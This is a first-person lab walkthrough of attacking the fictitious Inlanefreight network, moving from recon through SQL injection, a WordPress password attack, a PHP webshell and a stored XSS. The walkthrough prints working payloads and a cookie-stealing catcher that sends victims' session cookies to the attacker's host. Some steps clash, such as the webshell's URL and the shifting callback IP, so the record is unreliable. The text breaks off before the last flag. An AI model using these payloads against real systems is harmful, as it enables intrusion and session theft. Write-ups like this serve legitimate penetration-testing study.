# Attacking Enterprise Networks — Part 1: From an Anonymous FTP Login to a SYSTEM Shell in the DMZ

*A black-box walkthrough of a segmented Active Directory environment, from external recon on `inlanefreight.local` all the way to a `NT AUTHORITY\SYSTEM` shell on an internal DMZ web server.*

## Intro

This is Part 1 of a write-up on **Attacking Enterprise Networks**, a multi-host lab built around the fictitious company **Inlanefreight**. The environment simulates a real external-to-internal engagement: a single public-facing box fronting a handful of subdomains, which in turn leads into a segmented internal network running Active Directory.

I treated the whole thing as a true black box — no credentials, no scope notes beyond the IP, nothing. The methodology below is exactly how I approached it: enumerate, find a foothold, pivot, repeat.

One honesty note on ordering: once I got my **first foothold**, I jumped straight to pivoting into the internal network rather than finishing off every public subdomain first. I came back afterwards and finished the remaining subdomains, and I've reordered this write-up so the subdomains are presented together before the pivot — it reads better than the order I actually did things in, but every step and every screenshot below is real and unmodified.

**Part 1 stops right after I land a SYSTEM shell on the first internal DMZ host (`172.16.8.20`).** Domain escalation, lateral movement, and the DC takeover are coming in Part 2.

---

## 1. External Recon

Starting point: `10.129.229.147`, resolved to `inlanefreight.local`.

```bash
echo "10.129.229.147 inlanefreight.local" | sudo tee -a /etc/hosts
```



A full TCP scan with service/version detection and OS fingerprinting:

```bash
sudo nmap -sV -A -Pn 10.129.229.147 --disable-arp-ping
```


The scan returned a pretty wide spread of services:

| Port | Service |
|---|---|
| 21 | vsftpd 3.0.3 |
| 22 | OpenSSH 8.2p1 |
| 25 | Postfix smtpd |
| 53 | DNS (custom banner, `1337_HTB_DNS`) |
| 80 | Apache 2.4.41 — "Inlanefreight" |
| 110/143/993/995 | Dovecot POP3/IMAP |
| 111 | rpcbind |
| 8080 | Apache 2.4.41 — "Support Center" |

Port 21 jumped out immediately — anonymous FTP is always worth a free try.

## 2. Anonymous FTP → First Flag

```bash
ftp 10.129.229.147
Name: Anonymous
Password: <blank>
```

Login succeeded without a real password, and there was a single file sitting in the root directory:



```bash
ftp> get flag.txt
ftp> cat flag.txt
[redacted]
```

**Flag 1 down**, and a nice confirmation that this box isn't locked down as tightly as it could be.

## 3. DNS Zone Transfer → Mapping the Attack Surface

With port 53 open and a custom DNS server running, the next logical move was to check whether a zone transfer (`AXFR`) was allowed — a classic DNS misconfiguration that dumps the entire zone file to anyone who asks.

```bash
dig axfr inlanefreight.local @10.129.229.147
```



The transfer succeeded and handed over the whole internal naming scheme in one shot:

```
blog.inlanefreight.local
dev.inlanefreight.local
vpn.inlanefreight.local
support.inlanefreight.local
status.inlanefreight.local
careers.inlanefreight.local
tracking.inlanefreight.local
ir.inlanefreight.local
gitlab.inlanefreight.local
```

Nine hosts from one misconfigured DNS answer. This is the kind of finding that completely changes the shape of an assessment — instead of one web app, there are now at least nine attack surfaces to work through.

## 4. Virtual Host Fuzzing

A zone transfer only reveals what's *in the zone file* — it doesn't guarantee every vhost is actually configured on the web server, and it can also miss vhosts that were never added to DNS at all. So I ran a `Host:` header fuzz against the main IP to double check and look for anything extra:

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ \
     -u http://10.129.229.147/ -H 'Host:FUZZ.inlanefreight.local' -fs 15157
```



This confirmed all the zone-transfer hosts and surfaced one more that wasn't in the AXFR output: **`monitoring.inlanefreight.local`**. All ten subdomains went into `/etc/hosts` and it was time to start working through them.

---

## 5. `status.inlanefreight.local` — SQL Injection

The status page is a simple log-search tool: a text box that searches an events table.



Dropping a single quote into the search field broke the query immediately:



That's a textbook unescaped-input SQLi. I manually enumerated the column count and confirmed reflection with a `UNION SELECT`:

```
' UNION SELECT 1,2,3,4-- -
```



With the column count confirmed, I grabbed the actual POST parameter name out of Burp (`searchitem`) and handed the rest off to `sqlmap`:



```bash
sqlmap -u "http://status.inlanefreight.local/" --data="searchitem=id" --dbs
```


sqlmap confirmed the injection across multiple techniques (boolean-blind, error-based via `GTID_SUBSET`, time-blind, and UNION) and identified the back-end as MySQL behind PHP/Apache on Ubuntu. With the `status` database identified, I dumped the `users` table directly:

```bash
sqlmap -u "http://status.inlanefreight.local/" --data="searchitem=id" -D status -T users --dump
```





```
+----+-----------------------------------+----------+
| id | password                          | username |
+----+-----------------------------------+----------+
| 1  | [redacted]                        | Admin    |
| 2  | [redacted]                        | Flag     |
+----+-----------------------------------+----------+
```

**Flag 2 down** — stored as an MD5 hash in the `Flag` row of the dumped table.

## 6. `ir.inlanefreight.local` — WordPress Credential Attack → RCE

This subdomain runs WordPress:



I ran a version/plugin/theme enumeration pass first to get a feel for the attack surface:



Then a full `wpscan` pass with plugin and user enumeration:

```bash
wpscan --url http://ir.inlanefreight.local -e vp,u --plugins-detection aggressive
```



This scan surfaced the vulnerable **mail-masta** plugin (last updated 2014, long abandoned) and a set of valid usernames — `ilfreightwp`, `john`, `tom`, `james`:



Rather than chase the mail-masta plugin's known LFI, I pointed WPScan's password attack at the discovered accounts via XML-RPC, which is far less noisy than brute-forcing `wp-login.php` directly:



```
[SUCCESS] - ilfreightwp / password1
```

That single weak password was enough — `ilfreightwp` turned out to be a full **Administrator**, not just an author account:



Admin access to WordPress is effectively remote code execution if you know where to look. The built-in **Theme File Editor** lets an admin edit PHP files directly from the dashboard. I picked an *inactive* theme (Twenty Twenty) so I wouldn't trip anything on the live site, and dropped a one-liner into its `404.php` template:

```php
<?php system($_GET['cmd']); ?>
```



Since `404.php` only executes for visitors on an *active* theme, I switched Twenty Twenty to active, then requested any non-existent page with a `cmd` parameter:

```
http://ir.inlanefreight.local/wp-content/plugins/mail-masta/?cmd=id
```



Shell on host #2.

## 7. `support.inlanefreight.local` — Reflected XSS → Session Hijacking

```
http://support.inlanefreight.local/
```



Nothing obviously exploitable on the surface, so I moved to content discovery:

```bash
gobuster dir -u http://support.inlanefreight.local/ \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt -t 50
```



`ticket.php` stood out immediately — a support-ticket submission form is exactly the kind of page where user input eventually gets rendered back to an admin/agent, which makes it a prime stored-XSS candidate:



Rather than guess which field was vulnerable, I hosted a small listener on my attack box and fired a script-injection payload at every field in turn, until one of them called home:

```
"><script src=http://10.10.14.135:8080/1></script>
```

The `message` field was the one that fired — confirmed by a callback hitting my listener:



With the vulnerable field confirmed, I stood up a small cookie-stealing catcher:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $value) {
        $cookie = urldecode($value);
        file_put_contents("cookies.txt", "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n", FILE_APPEND);
    }
}
```

```js
new Image().src='http://10.10.14.135:8000/index.php?c='+document.cookie
```

And submitted the ticket with the full payload:

```
http://support.inlanefreight.local/ticket.php?Name=test&Email=test@test.com&Phone+Number=123&Product=test&os=win&browser=firefox&message=%22%3E%3Cscript%20src=http://10.10.14.204:8000/script.js%3E%3C/script%3E&ttype=bug
```

When the ticket was viewed on the backend, the script fired and the victim's session cookie landed in my catcher:

```
Victim IP: 10.129.133.68 | Cookie: session=[redacted]
```

Browsing the ticket queue with the stolen session exposed the flag sitting in the ticket list:

